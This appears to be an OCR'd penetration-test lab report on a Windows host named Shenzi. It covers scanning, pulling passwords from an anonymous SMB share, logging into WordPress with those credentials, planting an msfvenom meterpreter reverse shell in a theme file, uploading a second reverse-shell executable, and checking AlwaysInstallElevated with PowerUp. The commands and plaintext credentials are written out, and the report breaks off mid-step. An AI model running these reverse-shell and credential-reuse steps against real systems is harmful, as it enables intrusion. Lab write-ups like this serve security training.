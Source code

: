 | Independent Challenges Target \#1 – 192.168.232.55 Initial Access – Anonymous SMB share leads to Wordpress RCE Vulnerability Explanation: The SMB server is not protected with the password and has some sensitive information like credentials store. Which leads to RCE from wordpress theme editor. Vulnerability Fix: The SMB should be configured with credentials and guest enumeration should be disabled. Severity: Critical Steps to reproduce the attack: Ran the initial service scan John discovered that this host is called Sehnzi. Smbclient was used to interact on the port 445 to get the passwords.txt file from SMB share shenzi and used those credentials for wordpress admin access. Service Enumeration Port Scan Results IP Address Ports Open 192.168.232.55 TCP: 21, 80, 135, 139, 443, 3306, 49666 We run nmap to scan the target and found a few ports open. └─$ nmap 192.168.232.55 \-p- \--min-rate 20000 Starting Nmap 7.93 ( https://nmap.org ) at 2023-11-17 10:28 \+04 Warning: 192.168.232.55 giving up on port because retransmission cap hit (10). Nmap scan report for 192.168.232.55 Host is up (0.27s latency). Not shown: 48865 filtered tcp ports (no-response), 16662 closed tcp ports (conn-refused) PORT      STATE SERVICE 21/tcp    open  ftp 80/tcp    open  http 135/tcp   open  msrpc 139/tcp   open  netbios-ssn 443/tcp   open  https 445/tcp   open  microsoft-ds 3306/tcp  open  mysql 49665/tcp open  unknown Nmap done: 1 IP address (1 host up) scanned in 173.20 seconds ![][image2] └─$ nmap \-sCV 192.168.232.55 ![][image3]  Initial Access – SMB share to Wordpress RCE SMB revlead a ‘Shenzi’ share which was not protected with password and has interesting files for us. └─$ smbclient \-L \\\\\\\\192.168.232.55 ![][image4] └─$ smbclient \\\\\\\\192.168.232.55\\\\shenzi Password for \[WORKGROUP\\kali\]: Try "help" to get a list of possible commands. smb: \\\> ls   .                                   D        0  Thu May 28 19:45:09 2020   ..                                  D        0  Thu May 28 19:45:09 2020   passwords.txt                A     894  Thu May 28 19:45:09 2020   readme\_en.txt               A   7367  Thu May 28 19:45:09 2020   sess\_klk75u2q4rpgfjs3785h6hpipp      A     3879  Thu May 28 19:45:09 2020   why.tmp                        A      213  Thu May 28 19:45:09 2020   xampp-control.ini           A      178  Thu May 28 19:45:09 2020  12941823 blocks of size 4096\. 5850488 blocks available  ![][image5]Shenzi share has passwords.txt file, we will download it which can be used for login in wordpress admin account. └─$ smb: \\\> get passwords.txt ![][image6] └─$ cat passwords.txt ![][image7]From all the password admin:FeltHeadwallWight357 looks interesting, We couldn’t find any interesting directory with our directory busting enumeration using common wordlists, however if use our Share name it revels a wordpress site. └─$ http://192.168.232.55/shenzi/ ![][image8]We used initially discovered credentials admin:FeltHeadwallWight357  from the SMB share to login into wordpress. └─$ http://192.168.232.55/shenzi/wp-login.php ![][image9] After successfully logged in, we'll navigate to Appearance \-\> Theme Editor \-\> Theme Twenty Twenty to determine the active website theme. If we select a .php page (such as 404.php) we discover that we can directly edit the page's source code. http://192.168.232.55/shenzi/wp-admin/theme-editor.php?file=404.php\&theme=twentytwenty  ![][image10] We generated meterpreter payload with MSF and updated 404.php code with it to get a RCE . └─$ msfvenom \-p php/meterpreter/reverse\_tcp lhost=192.168.45.154 lport=443 \-f raw \> shell.php ![][image11] ![][image12] ![][image13] ![][image14] After updating 404.php file we will visit [http://192.168.232.55/shenzi/wp-content/themes/twentytwenty/404.php](http://192.168.232.55/shenzi/wp-content/themes/twentytwenty/404.php) to execute the reverse shell and catch it using multi/handler. ![][image15] Meanwhile, on our Metasploit console: ![][image16] Since PHP reverse shells are somewhat unstable, let's upload a more stable shell, which we'll generate with msfvenom and uploading using meterpreter. └─$ msfvenom \-p windows/x64/shell\_reverse\_tcp LHOST=192.168.45.154 LPORT=139 \-f exe \> shell.exe ![][image17] On Kali attacking machine: └─$ sudo nc \-lvp 139 On Meterpreter session: meterpreter \> upload shell.exe meterpreter \> execute \-f shell.exe ![][image18]  ![][image19] Local.txt value: └─$ whoami && ipconfig && type local.txt ![][image20] Privilege Escalation \- AlwaysInstallElevated We used PowerUp.ps1 to check the low-hanging fruit and found that system is vulnerable to AlwaysInstallElevated. As Microsoft mentioned, This option is equivalent to granting full administrative rights, which can pose a massive security risk. Microsoft strongly discourages the use of this setting. [https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1](https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1) [https://learn.microsoft.com/en-us/windows/win32/msi/alwaysinstallelevated](https://learn.microsoft.com/en-us/windows/win32/msi/alwaysinstallelevated)  └─$ python \-m http.server 80 ![][image21] └─$ iwr http://192.168.45.154/PowerUp.ps1 \-o PowerUp.ps1 ![][image22] We’ll load the PowerUp.ps1 script into powershell and check for any low-hanging fruit. PS C:\\Users\\shenzi\\Desktop\> . .\\PowerUp.ps1 PS C:\\Users\\shenzi\\Desktop\> Invoke-AllChecks ![][image23] ![][image24] We can also confirm this vulnerability using manual command as suggested by Microsoft. URL: [https://learn.microsoft.com/en-us/windows/win32/msi/alwaysinstallelevated](https://learn.microsoft.com/en-us/windows/win32/msi/alwaysinstallelevated) PS C:\\Users\\shenzi\\Desktop\> reg query HKLM\\SOFTWARE\\Policies\\Microsoft\\Windows\\Installer reg query HKLM\\SOFTWARE\\Policies\\Microsoft\\Windows\\Installer